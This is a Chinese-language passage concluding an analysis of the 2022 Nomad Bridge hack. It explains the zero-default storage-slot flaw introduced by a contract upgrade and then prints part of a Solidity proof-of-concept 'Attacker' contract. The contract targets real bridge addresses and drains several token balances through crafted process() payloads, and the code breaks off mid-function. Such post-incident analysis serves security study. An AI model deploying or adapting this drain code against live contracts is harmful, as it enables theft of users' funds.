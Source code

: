 ## 总结（Conclusion）

Nomad Bridge攻击可以说是2022年最大的黑客攻击之一。这次攻击再次向我们强调了协议安全的重要性。在这个特殊的案例中，我们已经了解到一个常规的合约升级是如何产生一个可怕的漏洞并危及所有锁定的资金。此外，在开发过程中，人们需要注意存储槽（slot）的默认值为0，特别是在涉及映射（mapping）的逻辑中。对于这种可能导致漏洞的常见值，z最好设置一些单元测试以避免潜在的危险。

值得一提的是，一些参与模仿攻击的账户将资金返还给了Nomad项目，项目方也在计划[重新上线](https://medium.com/nomad-xyz-blog/nomad-bridge-relaunch-guide-3a4ef6624f90)并将资产返还给受到影响的用户。如果您持有Nomad在攻击中丢失的资产，请将它返还给[Nomad recovery 钱包](https://etherscan.io/address/0x94a84433101a10aeda762968f6995c574d1bf154)。

正如之前提到的，这次攻击远比看起来更加简单，而且很有可能在一个交易里盗取所有资金，以下是完整的PoC代码（包括一些Foundry日志）：

*[完整的PoC代码](https://gist.githubusercontent.com/gists-immunefi/2bdffe6f9683c9b3ab810e1fb7fe4aff/raw/df16e8103c6c3b38d412e0320cda37da9a5a9e7c/Nomad%20Hack%20Analysis%205.sol)*
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;
 
import "@openzeppelin/token/ERC20/ERC20.sol";
import "forge-std/console.sol";
 
interface IReplica {
   function process(bytes memory _message) external returns (bool _success);
}
 
contract Attacker {
   address constant REPLICA = 0x5D94309E5a0090b165FA4181519701637B6DAEBA;
   address constant BRIDGE_ROUTER = 0xD3dfD3eDe74E0DCEBC1AA685e151332857efCe2d;
   address constant ERC20_BRIDGE = 0x88A69B4E698A4B090DF6CF5Bd7B2D47325Ad30A3;
  
   // Nomad domain IDs
   uint32 constant ETHEREUM = 0x657468;   // "eth"
   uint32 constant MOONBEAM = 0x6265616d; // "beam"
 
   // tokens
   address [] public tokens = [
       0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599, // WBTC
       0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, // WETH
       0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, // USDC
       0xdAC17F958D2ee523a2206206994597C13D831ec7, // USDT
       0x6B175474E89094C44Da98b954EedeAC495271d0F, // DAI
       0x3432B6A60D23Ca0dFCa7761B7ab56459D9C964D0, // FRAX
       0xD417144312DbF50465b1C641d016962017Ef6240  // CQT
   ];
 
   function attack() external {
       for (uint i = 0; i < tokens.length; i++) {
           address token = tokens[i];
           uint256 amount_bridge = ERC20(token).balanceOf(ERC20_BRIDGE);
 
           console.log(
               "[*] Stealing",
               amount_bridge / 10**ERC20(token).decimals(),
               ERC20(token).symbol()
           );
           console.log(
               "    Attacker balance before:",
               ERC20(token).balanceOf(msg.sender)
           );
 
           // Generate the payload with all of the tokens stored on the bridge
           bytes memory payload = genPayload(msg.sender, token, amount_bridge);
 
           bool success = IReplica(REPLICA).process(payload);
           require(success, "Failed to process the payload");
```